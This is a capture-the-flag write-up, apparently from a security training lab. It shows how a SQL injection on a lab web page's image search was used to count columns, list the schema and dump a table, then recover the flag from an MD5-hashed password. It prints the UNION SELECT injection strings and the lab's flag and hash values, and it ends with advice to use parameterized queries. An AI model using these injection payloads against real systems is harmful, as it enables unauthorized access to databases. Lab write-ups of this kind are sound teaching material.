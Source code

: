 # SQL INJECTION IMAGE

## The flag

```
THE FLAG IS : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to find it ?

On the page http://10.12.1.121/index.php?page=searchimg

- To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
-> good so 2 columns

- To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
-> id, url, title, comment

- To see all user's data
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
-> borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

- Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('1928e8083cf461a51303633093573c46')
-> albatroz
lower('albatroz')
-> albatroz
sh256('albatroz')
-> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## How to use it ?

Dumb and get all database infos


## How to avoid it ?

Always use parameterized statements in SQL request. If you can't, you must at least escaping inputs.